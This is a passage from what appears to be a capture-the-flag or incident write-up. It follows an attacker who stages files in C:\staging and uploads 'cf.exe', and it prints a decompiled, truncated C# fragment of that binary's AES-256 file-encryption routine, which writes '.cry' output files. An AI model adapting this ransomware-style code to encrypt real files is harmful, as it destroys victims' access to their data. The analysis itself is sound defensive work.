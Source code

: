The attacker then finds the zipped challenge file at the "package" sub directory.

![lab10](img/19.png)

The attacker then creates a staging directory at "C:\staging" and uploads a "cf.exe"

![uploadcf](img/20.png)

"cf.exe" is a .NET binary that performs file encryption.

```cs
public static bool Redacted_LongUnicodeName(string text, string s){
	string path = text + ".cry";
	SHA256 sHA = SHA256.Create();
	byte[] array = Convert.FromBase64String(s);
	try {
		if (array.Length != 32) {
			throw new ArgumentException("");
		}
		byte[] array2 = File.ReadAllBytes(text);
		using (Aes aes = Aes.Create()) {
			aes.KeySize = 256;
			aes.Key = array;
```
